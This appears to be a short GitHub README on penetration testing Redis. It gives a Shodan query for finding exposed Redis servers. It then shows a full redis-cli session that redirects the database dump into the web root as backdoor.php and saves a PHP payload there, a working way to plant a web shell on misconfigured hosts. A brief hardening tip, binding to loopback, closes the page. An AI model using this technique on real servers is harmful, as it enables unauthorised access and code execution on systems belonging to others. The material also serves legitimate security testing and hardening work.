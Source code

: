 # Redisturb
## *Redis.io* Penetration Testing 
![GitHub Logo](/Redis_Logo.png)
##### Intro

*Redis.io* is an open source in-memory database developed to store volatile data like messages, cache, cookie, etc.

I beg you to read [url:redis.io/security](http://redis.io/topics/security) if you have any intention to setup *Redis.io* in production mode.

##### Discover misconfigured *Redis.io* using *Shodan* and *Nmap*

*Shodan* give us a powerful tool to find several misconfigured servers.

` { product:"Redis key-value store", port:"6379" } `

##### Upload malicious file
Requirement : access to CONFIG and (BGSAVE or SAVE)
```
localhost:6379> config set dir /var/www/html
OK
localhost:6379> config get dir
1) "dir"
2) "/var/www/html"
- - - - -
localhost:6379> config set dbfilename backdoor.php
OK
localhost:6379> config get dbfilename
1) "dbfilename"
2) "backdoor.php"
- - - - -
localhost:6379> set cmd "<?php phpinfo(); ?>"
OK
localhost:6379> bgsave
Background saving started
- - - - -
-rw-r--r-- 1 redis redis 45 Sep 19 17:01 backdoor.php
```

#### Security Best Practices
Add to **redis.conf**

`bind 127.0.0.1`

Allow access only from loopback (implied that the application that needs *Redis.io* running on the same host).
